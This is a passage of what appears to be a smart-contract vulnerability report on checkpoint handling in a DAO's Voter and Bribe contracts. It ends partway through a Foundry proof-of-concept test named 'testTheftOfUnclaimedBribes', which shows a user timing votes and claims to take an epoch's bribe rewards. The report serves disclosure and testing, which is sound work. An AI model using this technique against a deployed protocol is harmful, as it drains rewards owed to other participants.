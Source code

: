 ```solidity
  356:         } else {
@>357:             checkpoints[tokenId][_nCheckPoints] = Checkpoint(_timestamp, balance);
  358:             numCheckpoints[tokenId] = _nCheckPoints + 1;
  359:         }
  360:     }
```

Additionally, when `Voter::poke` is called, it saves another checkpoint only if it is invoked at a different timestamp than the checkpoint saved during the claim. Consequently, when `Bribe::earned` starts calculating based on the first checkpoint index after the last epoch, it iterates over both checkpoints, leading to potential discrepancies and unintended influences across epochs.

## Impact Details
1. **Economic Incentive Disruption**: By exploiting this vulnerability, a user can claim an outsized portion of the rewards pool, potentially leaving insufficient funds for other participants.
2. **Resource Drainage**: Continuous exploitation of this vulnerability could lead to significant resource drainage, reducing the overall effectiveness and sustainability of the DAO.


        
## Proof of concept
### Test Case (Foundry)
The provided test demonstrates how the manipulation of voting weights and reward claims can lead to disproportionate reward allocation. The test involves two participants, Alice and Bob, where Bob manipulates the system to claim full rewards for an epoch by strategically timing his votes and claims. This test is critical for illustrating the practical exploitability of the vulnerability under realistic conditions.

#### Test Execution:
The test can be added to a new file under the current test suite `src/test/VotingPoC.t.sol`, then specify the file name in `FILE` flag under `Makefile` configuration. Run using `make test_file`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingPoCTest is BaseTest {
    address public alice;
    address public bob;

    function setUp() public {
        setupContracts(block.timestamp);

        // Setup Alice and Bob addresses
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(alice, 'Bob');
    }

    function testTheftOfUnclaimedBribes() public {
        uint256 period = minter.activePeriod();
        hevm.warp(period + 1 days);

        uint256 aliceTokenId = createVeAlcx(alice, TOKEN_1, 1, true);
        uint256 bobTokenId = createVeAlcx(bob, TOKEN_1, 1, true);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
```